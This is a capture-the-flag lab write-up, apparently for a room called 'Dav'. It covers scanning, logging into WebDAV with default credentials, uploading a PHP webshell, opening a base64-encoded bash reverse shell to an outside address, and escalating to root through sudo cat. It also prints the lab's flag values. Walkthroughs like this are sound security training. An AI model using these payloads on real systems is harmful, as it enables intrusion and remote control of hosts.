







## TL;DR

We detect `webdav` with default credentials and upload a webshell.

Then, we can read the root flag using `sudo` on `/bin/cat`.
we could have also override the file `/etc/passwd` and add our new root user.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



port `80` with apache http server.
```bash
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

we added `dav` to our `/etc/hosts`.

### Upload webshell to webdav with default credentials

Using `ffuf` we found endpoint with basic http auth
```bash
┌──(agonen㉿kali)-[~/thm/Dav]
└─$ ffuf -u 'http://dav/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/common.txt                                                        

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://dav/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htaccess               [Status: 403, Size: 287, Words: 22, Lines: 12, Duration: 93ms]
.htpasswd               [Status: 403, Size: 287, Words: 22, Lines: 12, Duration: 3157ms]
.hta                    [Status: 403, Size: 282, Words: 22, Lines: 12, Duration: 4165ms]
index.html              [Status: 200, Size: 11321, Words: 3503, Lines: 376, Duration: 81ms]
server-status           [Status: 403, Size: 291, Words: 22, Lines: 12, Duration: 77ms]
webdav                  [Status: 401, Size: 450, Words: 42, Lines: 15, Duration: 80ms]
```

You can see the endpoint `webdav`.



Here, when we try to login we need to supply password:



I googled, and find this blog post [http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html](http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html).

So, let's try to follow this.

First, execute:
```bash
cadaver http://dav/webdav
```

Next, login with the default credentials:
```bash
wampp:xampp
```

Finally, upload our webshell, which we created before using the command:
```bash
echo -e '<?php system($_GET["cmd"]); ?>' > webshell.php
```
uploading:
```bash
put webshell.php
```



And we can see, it works:
```bash
http://dav/webdav/webshell.php?cmd=id
```



Now, let's paste the payload from penelope:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xMzIuMTY4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash
```



take the user flag:
```bash
www-data@ubuntu:/home/merlin$ cat user.txt 
449b40fe93f78a938523b7e4dcd66d2a
```

### Privilege Escalation to Root using sudo on /bin/cat

we check the user permissions using `sudo -l`:
```bash
www-data@ubuntu:/home/merlin$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```

Okay, let's simply read the root flag:
```bash
www-data@ubuntu:/home/merlin$ sudo /bin/cat /root/root.txt
101101ddc16b0cdf65ba0b8a7af7afa5
```

